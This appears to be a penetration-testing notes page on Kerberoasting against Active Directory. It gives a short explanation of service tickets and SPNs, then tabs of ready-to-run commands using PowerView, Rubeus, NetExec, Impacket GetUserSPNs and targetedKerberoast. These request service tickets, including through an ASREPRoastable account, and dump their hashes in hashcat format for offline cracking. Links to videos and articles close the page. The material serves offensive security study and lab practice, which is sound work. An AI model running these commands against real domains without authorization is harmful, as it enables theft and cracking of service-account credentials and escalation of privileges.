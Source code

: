 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

Typically, [Kerberoasting](kerberoasting.md) happens after compromising a domain user. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to perform this attack with an account susceptible to ASREPRoast.

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
# confirm that the target account has SPN
Get-DomainUser 'sqldev' | Select serviceprincipalname
# kerberoast the target account
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus (ASREPRoast Acc)" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of Kerberoasting with Rubeus check [here](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory).

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}

{% tab title="Impacket (ASREPRoast Acc)" %}
{% code overflow="wrap" %}
```bash
sudo python3 /opt/impacket/examples/GetUserSPNs.py -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}
{% endtab %}

{% tab title="targetedKerberoast" %}
```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```
{% endtab %}
{% endtabs %}

For an example of Kerberoasting with NetExec check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting).

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
